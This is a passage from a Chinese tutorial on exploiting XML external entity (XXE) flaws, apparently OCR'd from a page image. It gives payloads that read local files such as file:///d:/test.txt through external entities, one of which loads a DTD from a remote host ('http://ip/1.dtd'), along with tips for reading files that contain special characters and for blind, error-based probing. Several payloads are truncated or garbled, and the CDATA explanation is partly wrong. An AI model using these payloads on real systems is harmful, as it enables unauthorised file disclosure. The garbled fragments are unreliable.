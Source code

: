 在 XML 中，字符 "&lt;" 和 "&amp;" 是非法的，所以读取一些带有特殊字符的文件时，就会报错“元素内容必须由格式正确的字符数据或标记组成”。

如果目标环境是PHP的，这个时候就可以使用PHP协议，用base64编码去读取

```
 ]&gt;

```

在Java环境中，我们可以使用CDATA来读取包含特殊字符的文本数据，避免XML解析器对其进行解析。

CDATA部分用于包含可能会被XML解析器误解为标记的文本。比如，一段文本中包含"&lt;"或"&amp;"等字符，这些字符在XML中具有特殊含义，如果直接包含在XML文档中可能会导致解析错误。使用CDATA部分可以避免这种问题，因为CDATA部分中的所有内容都会被XML解析器忽略。

在Java中，我们可以使用以下方式将文本数据包含在CDATA部分中：

```
String data = "&lt;![CDATA[这里是文本数据]]&gt;";

```

在这个例子中，"这里是文本数据"是包含在CDATA部分中的文本数据。当这段文本数据被XML解析器解析时，解析器会忽略CDATA部分，只将其中的内容当作普通的文本数据处理。

使用CDATA部分是一种在XML文档中包含特殊字符文本的有效方式。同时，在Java环境中，我们也可以利用这个特性来读取和处理这类文本数据。

**payload:**

```
&lt;?xml version="1.0" encoding="utf-8"?&gt; 
   
&lt;!ENTITY % goodies SYSTEM "file:///d:/test.txt"&gt;  
&lt;!ENTITY % end "]]&gt;"&gt;  
&lt;!ENTITY % dtd SYSTEM "http://ip/1.dtd"&gt; 
%dtd; ]&gt; 

&lt;roottag&gt;&amp;all;&lt;/roottag&gt;

```

**1.dtd**

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;  &lt;!ENTITY all "%start;%goodies;%end;"&gt;

```

但是也只能读取一些简单的文本文件，如果文本中含有&amp;或%还是无法进行读取。

#### 1.3.3、无回显

当遇到服务器响应始终为空的情况时，针对 XXE漏洞可以选择报错利用和外带利用两种策略。

##### 1.3.3.1、报错利用

通过构造特殊的 XXE 请求来触发服务器的错误响应。通常，当服务器处理错误的 XXE 请求时，会返回一些有关其内部环境的信息。输入任意文件或目录，查看返回包，如返回500“没有那个文件或目录”，则证明文件不存在，如返回200，则证明文件存在。

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
%remote;]&gt;

```
